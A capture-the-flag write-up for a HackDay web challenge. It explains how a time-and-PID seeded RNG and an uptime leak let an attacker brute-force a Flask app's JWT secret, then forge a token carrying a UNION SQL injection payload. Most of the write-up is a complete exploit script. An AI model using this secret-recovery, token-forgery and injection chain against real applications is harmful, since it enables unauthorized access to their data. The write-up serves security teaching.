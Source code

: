 # Your region's finest

> You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"
>
> Attachment : [app.py](https://github.com/s3r1msultan/CTFs/blob/main/HackDayCTF/Web/Your%20region's%20finest/app.py) , sha256 : 415a046c5c03ac1ff0646cae082503af9d6bf52b7ff6db00ff0009ab7f0b0ba
>
> `challenges.hackday.fr:58990`

The first step is to explore app.py to find a way to get the flag. We see that the flag can be found in the Flag table as a single entry.

```python
class Flag(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    flag = db.Column(db.String(100), nullable=False)
...
def create_data():
    # clear all Product db
    db.session.query(Product).delete()
    
    product1 = Product(name=f'Space Cookie', description='Cookies so delicate, they might just break! No need for brute force, one bite and they’ll melt right into your hands.', price=random.randrange(10, 100))
    product2 = Product(name='Syringe', description='To, hum, inject yourself with medicine I guess ?', price=random.randrange(10, 100))
    product3 = Product(name='Cool looking leaf', description='To add a nice scent to your house :)', price=random.randrange(10, 100))
    with open("flag.txt","r") as f:
        flag = Flag(flag=f.read().strip())
    db.session.add(product1)
    db.session.add(product2)
    db.session.add(product3)
    db.session.add(flag)
    db.session.commit()
```

So to get the flag we need to find a way to get access to that entry. Upon further investigation, we see, that we can see our favorite product in `/favorite_product_info` route. Additionally, we see that query directly takes product id from user's jwt for receiving favorite product. This gives us an opportunity for SQL injection.

```python
@app.route('/favorite_product_info')
@jwt_required()
def favorite_product_info():
    claims = get_jwt()
    favorite_product_id = claims.get('favorite_product')
    if favorite_product_id:
        favorite_product = Product.query.get(favorite_product_id)
        try:
            favorite_product = db.session.execute(text("SELECT * FROM product WHERE id = " + str(favorite_product_id))).fetchone()
        except Exception as e:
            return render_template('favorite_product_info.html', product=None, error=e)
        return render_template('favorite_product_info.html', product=favorite_product)

    return render_template('favorite_product_info.html', product=None)
```

Now we should check JWT logic. At the start of the app.py we see the hint that JWT_SECRET_KEY is not safe. It is actually not safe, because application uses pseudo-random with determined seed for generating secret key.

```python
# I saw in the official _randommodule.c in which both time and pid are used to seed the random generator
# So that must be a good idea, right ? :) Just gonna do it simpler here, but should be as safe.

up = math.floor(time.time())
random.seed(up + os.getpid())

app = Flask(__name__)
app.config['SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////app/data/site.db'
app.config['JWT_SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False 
```

It means that we could bruteforce secret key for JWT. Moreover, we already could calculate the time when server was started due to `/healthz` route.

```python
@app.route("/healthz")
def healthz():
    return jsonify(status="OK", uptime=time.time() - up)
```

So now we know the order of our actions:
1. Register new user.
2. Get user's JWT from cookies.
3. Calculate server's start time.
4. Bruteforce PID and and find secret key for JWT.
5. Forge new JWT with SQL injection for "favorite_product" key.
6. Open `/favorite_product_info` and get the flag.

Here you can see the full script to solve this task ([solution.py](https://github.com/s3r1msultan/CTFs/blob/main/HackDayCTF/Web/Your%20region's%20finest/solution.py)).

```python
import jwt, string, random, requests, logging, math, re, time
from datetime import datetime, timedelta

logging.basicConfig(level=logging.INFO, format="%(asctime)s - %(levelname)s - %(message)s")

BASE_URL = "http://challenges.hackday.fr:58990"
REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"
HEALTHZ_URL = f"{BASE_URL}/healthz"
FAVORITE_PRODUCT_INFO_URL = f"{BASE_URL}/favorite_product_info"

USERNAME = random.choice(string.ascii_letters).lower() + "".join(random.choice(string.ascii_letters + string.digits) for _ in range(7))
PASSWORD = USERNAME


def register_user():
    """Register a new user."""
    logging.info("Registering a new user.")
    response = requests.post(REGISTER_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User registered successfully.")
    else:
        logging.error("Failed to register user.")


def login_user():
    """Login the user and get the JWT from cookies."""
    logging.info("Logging in the user.")
    session = requests.Session()
    response = session.post(LOGIN_URL, data={"username": USERNAME, "password": PASSWORD})
    if response.status_code == 200:
        logging.info("User logged in successfully.")
        jwt_token = session.cookies.get("access_token_cookie")
        return jwt_token
    logging.error("Failed to log in user.")
    return None


def get_server_start_time():
    """Calculate the server's start time using the /healthz endpoint."""
    logging.info("Calculating server start time.")
    response = requests.get(HEALTHZ_URL)
    if response.status_code == 200:
        uptime = response.json().get("uptime")
        start_time = time.time() - uptime
        logging.info(f"Server start time calculated: {start_time}")
        return start_time
    logging.error("Failed to get server start time.")
    return None


def bruteforce_jwt_secret(start_time):
    """Bruteforce the JWT_SECRET_KEY based on the start time and PID."""
    logging.info("Starting bruteforce for JWT secret.")
    TIME_WINDOW_SECONDS = 5
    rounded_start_time = math.floor(start_time)
    possible_times = range(rounded_start_time - TIME_WINDOW_SECONDS, rounded_start_time + TIME_WINDOW_SECONDS + 1)
    for possible_up in possible_times:
        for pid in range(1, 65536):
            random.seed(possible_up + pid)
            _ = "".join(random.choice(string.printable) for _ in range(32))
            candidate_secret = "".join(random.choice(string.printable) for _ in range(32))
            try:
                jwt.decode(jwt_token, candidate_secret, algorithms=["HS256"])
                logging.info(f"JWT secret found: {candidate_secret}")
                return candidate_secret
            except jwt.InvalidTokenError:
                continue
    logging.error("Failed to bruteforce JWT secret.")
    return None


def forge_jwt(jwt_secret):
    """Forge a new JWT with an SQL injection payload."""
    logging.info("Forging a new JWT with SQL injection payload.")
    payload = {
        "sub": USERNAME,
        "favorite_product": "1 UNION SELECT 1, flag, flag, 0.0, 'static/images/default.png', 1 FROM flag LIMIT 1 --"
    }
    forged_token = jwt.encode(payload, jwt_secret, algorithm="HS256")
    logging.info("JWT forged successfully.")
    return forged_token


def get_flag(forged_token):
    """Send the forged JWT to get the flag."""
    logging.info("Sending forged JWT to retrieve the flag.")
    cookies = {"access_token_cookie": forged_token}
    response = requests.get(FAVORITE_PRODUCT_INFO_URL, cookies=cookies)
    if response.status_code == 200:
        logging.info("Successfully retrieved the response.")
        flag = re.search(r'HACKDAY\{.*?\}', response.text)
        if flag:
            logging.info(f"Succesfully retrieved the flag")
            return flag.group()
        logging.error("Flag not found in the response.")
        return response.text
    logging.error("Failed to retrieve the response.")
    return None


if __name__ == "__main__":
    register_user()
    jwt_token = login_user()

    if not jwt_token:
        logging.error("Exiting due to login failure.")
        exit(1)

    start_time = get_server_start_time()
    if not start_time:
        logging.error("Exiting due to failure in calculating server start time.")
        exit(1)

    jwt_secret = bruteforce_jwt_secret(start_time)
    if not jwt_secret:
        logging.error("Exiting due to failure in bruteforcing JWT secret.")
        exit(1)

    forged_token = forge_jwt(jwt_secret)
    flag = get_flag(forged_token)

    if flag:
        logging.info(f"Flag retrieved: {flag}")
    else:
        logging.error("Failed to retrieve the flag.")
```

`HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}`
